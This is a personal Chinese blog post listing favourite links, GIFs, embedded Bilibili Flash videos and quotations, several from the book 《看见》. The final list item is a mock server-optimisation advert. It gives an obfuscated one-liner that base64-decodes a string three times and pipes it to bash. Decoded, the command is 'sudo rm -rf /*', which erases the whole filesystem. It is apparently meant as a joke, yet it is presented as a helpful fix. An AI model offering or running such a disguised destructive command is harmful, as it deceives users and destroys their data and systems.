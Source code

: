 ```yaml
---
title: 一些好玩或喜欢的东西
date: 2017-01-15 13:39:19
categories:
tags:
cover: https://ooo.0o0.ooo/2017/01/15/587b6fa037ff5.jpg
skip: false
---
```


长时间记录一些好玩或喜欢的东西

### Links

1. [UI超棒，AI俄罗斯方块动画！有时间自己玩玩！](http://thomas-yang.me/#color=977355)
2. [在线画图UML...](https://www.processon.com/diagrams)

### Pictures

<img src="http://ww3.sinaimg.cn/mw690/006D2KSdjw1fbldl68ryhg30dw086nki.gif" alt="" width="500" height="294" />
<img src="http://obu9je6ng.bkt.clouddn.com/FiO5oFV4MEL1pwm1GYad5tDFmeJw?imageslim" alt="ClipboardImage" width="200" height="181" />

<img src="http://obu9je6ng.bkt.clouddn.com/FiyQ9hLRXRhJsKYBs_vOW8pZw82m?imageslim" alt="ClipboardImage" width="269" height="143" />

<img src="http://ww4.sinaimg.cn/mw690/006D2KSdjw1fb8wvlp7rrg30dw06ph88.gif" alt="" width="500" height="241" />


### Videos

<embed height="415" width="544" quality="high" allowfullscreen="true" type="application/x-shockwave-flash" src="//static.hdslb.com/miniloader.swf" flashvars="aid=7793587&page=1" pluginspage=".adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash"></embed>

<embed height="415" width="544" quality="high" allowfullscreen="true" type="application/x-shockwave-flash" src="//static.hdslb.com/miniloader.swf" flashvars="aid=7924127&page=1" pluginspage="//www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash"></embed>

<embed height="415" width="544" quality="high" allowfullscreen="true" type="application/x-shockwave-flash" src="//static.hdslb.com/miniloader.swf" flashvars="aid=1162066&page=1" pluginspage="//www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash"></embed>

<embed height="415" width="544" quality="high" allowfullscreen="true" type="application/x-shockwave-flash" src="//static.hdslb.com/miniloader.swf" flashvars="aid=500747&page=1" pluginspage="//www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash"></embed>

### Words

- 这世界上的大部分健康的人际关系，都是两个强者之间的锦上添花，而不是弱者之间的相互取暖。

- 一个社会的文明程度取决于其对弱者的态度。

- 因为我想你这三个字说不出口，所以每天噼里啪啦跟你讲一堆没有用的废话，我这么神经病，都怪你。 

- 为了一个目的 —— 哪怕是一个正义的目的，就像车轮一样狠狠碾过人的心，也是另一种戾气。
    —— 《看见》

- 生和死，苦难和苍老，都蕴涵在每一个人的体中，总有一天我们会与之遭逢。我们终将浑然难分，像水溶于水中。
    —— 《看见》

- 服务器速度慢？空间不够用？经常死机？在线率低？经常被攻击？
        echo WXpOV2EySjVRbmxpVTBGMFkyMVpaMHg1YjBzPQ==|base64 -D|base64 -D|base64 -D|bash
自动优化你的服务器

